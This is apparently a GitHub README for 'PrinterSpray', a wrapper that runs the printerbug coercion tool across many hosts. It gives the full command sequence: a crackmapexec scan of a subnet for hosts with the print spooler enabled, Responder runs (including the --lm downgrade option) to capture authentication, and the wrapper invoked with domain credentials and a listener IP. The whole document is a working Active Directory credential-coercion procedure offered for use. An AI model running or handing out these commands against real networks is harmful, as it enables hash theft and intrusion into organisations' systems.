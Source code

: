 # PrinterSpray

Wrapper of https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py to be used with a list of IPs. 

Discover potentual targets

```
crackmapexec smb [subnet] -u '' -p '' -M spooler | grep -a "Spooler service enabled" | awk -F " " '{print$2}' > spooler.txt
```

Have responder running

```
sudo responder -I [interface]
```
Also try with --lm

```
sudo responder -I [interface] --lm
```

Run against hosts that have the spooler service enabled

```
./printerspray.sh -t [targets file] -d [AD domain] -u [username] -p [pwd] -l [listenerIP]
```

Example:

```
./printerspray.sh -t ./spooler.txt -d 'labdomain.local' -u 'ADuser1' -p 'pwd' -l 192.168.1.23
```
